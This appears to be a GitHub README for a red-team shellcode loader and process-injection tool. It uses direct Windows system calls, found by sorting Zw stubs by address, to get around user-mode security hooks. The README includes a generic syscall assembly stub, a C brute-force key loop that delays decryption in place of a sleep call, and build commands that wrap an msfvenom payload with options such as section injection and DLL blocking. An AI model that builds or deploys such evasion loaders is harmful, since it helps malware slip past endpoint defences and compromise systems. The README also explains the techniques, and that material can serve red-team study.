 ## GENERIC SYSCALL KINDA
This code impliments the Sorting by System Call Address method described in a [blogpost.](https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/)<br>and described below.   

## SSN  
Native system calls on windows are explained really well in lots of other places.  
Suffice it to say that in the below function `37h` is the SSN, and it tells the kernel which function pointer to return.  
This number is inconsistent across version and even builds. So we like to find them dynamically if possible.  

```
ZwWriteVirtualMemory
		mov r10, rcx
		mov eax, 37h
		syscall
		ret
```

The `GetSyscallsList` function populates the list of SSNs by enumerating the Zw stubs and sorting by address.  

quick disasm with https://defuse.ca/online-x86-assembler.htm#disassembly
```
ZwX:
   58                          pop     rax            ; return address
   41 5A                       pop     r10
   50                          push    rax            ; save in shadow space as _rcx
   51                          push    rcx            ; rax = ssn
   58                          pop     rax
   52                          push    rdx            ; rcx = arg1
   41 5A                       pop     r10
   41 50                       push    r8             ; rdx = arg2
   5A                          pop     rdx
   41 51                       push    r9             ; r8 = arg3
   41 58                       pop     r8             ; r9 = arg4
   4C 8B 4C 24 20              mov     r9, [rsp + 0x20]
   0F 05                       syscall
   FF 64 24 18                 jmp     qword[rsp]
```
This is an interesting technique because it removes the need to both define native function types in our header files and to define each native function in assembly.  Though this is not done in the blog post example, probably because it is a terrible coding practice.  

Some prerequisite knowledge:  
- When a function is called the return address is pushed to the stack and execution jumps to the address of the function. So `call` is really like a `push ret` then `jmp faddr` instruction.  
- In x64 the fastcall calling convention is used. With fastcall four registers are used to hold the first four parameters of a function (`rcx`, `rdx`, `r8`, `r9`).  

So `pop rax` moves the return address from the top of the stack to `rax` register. Now `first parameter` of the function is at the top.  
`pop r10` moves the next item from the top of the stack to `r10`.
The return address in `rax` is moved back to the top of the stack with the `push rax` operation.
The first parameter of our ZwX fucntion is then pushed onto the stack with `push rcx`.  
The stack then starts to look more like the stdcall the underlying native function is expecting.  


## Encoding  
The shellcode is encrypted with AES-CBC encryption via the kokke TinyAES library.  
The IV and key are generated with the get_random_bytes function in the pycryptodome library.  
The shellcode payload is decrypted with a crude brute-force loop of the last two bytes of the key instead of using the sleep function.  
This is reduced to one-byte when the shellcode is over 1M.  

```c 
for (int i = 0x00; i<=0xff;i++) {
    key[14] = i;
    for (int j = 0x00; j <= 0xff;j++) {
        key[15] = j;
        AES_init_ctx_iv(&ctx, key, iv);
        AES_CBC_decrypt_buffer(&ctx, encrypted_instructions, ENCRYPTED_BIN_LEN);
``` 
There is a loader, which just runs the shellcode in the same process via function pointer, a loader that does the same thing but via sections, and a process injector.  

Dependencies:
```
gcc
python3
nasm
```

use like
```bash
python3 -m venv env  
source env/bin/activate  
pip install pycryptodome  
msfvenom -p windows/x64/exec CMD='C:\Windows\System32\notepad.exe' EXITFUNC=process -f raw -o test.bin  
python build.py -inbin test.bin -execmethod runner
python builder.py -inbin test.bin -execmethod section_inject --process notepad.exe --cmdline 'c:\\windows\\system32\\firefox.exe'
```


```bash
usage: builder.py [-h] [-inbin INBIN] [-execmethod {section_inject,section_runner,section_runner_dll,section_runner_big,section_runner_big_dll,runner,runner_dll,runner_big_blockddls,runner_big_blockddls_dll,runner_blockdlls,runner_blockdlls_dll}] [--process PROCESS] [--cmdline CMDLINE] [--verbose]

generate AES-CBC encrypted shellcode runners

optional arguments:
  -h, --help            show this help message and exit
  -inbin INBIN          .bin file
  -execmethod {section_inject,section_runner,section_runner_dll,section_runner_big,section_runner_big_dll,runner,runner_dll,runner_big_blockddls,runner_big_blockddls_dll,runner_blockdlls,runner_blockdlls_dll}
  --process PROCESS     process to inject (only with 'section_inject')
  --cmdline CMDLINE     cmdline argument to show (only with 'section_inject')
  --verbose             
  ```  

### References & Reading
Generally:  
hasherezade -- rely heavilly on her PEB lookup heeader code
forrest-orr -- excellent code to read and learn from  
batsec -- lots of python building stuff from his shad0w project  

https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams  
https://github.com/simon-whitehead/assembly-fun/blob/master/windows-x64/README.md  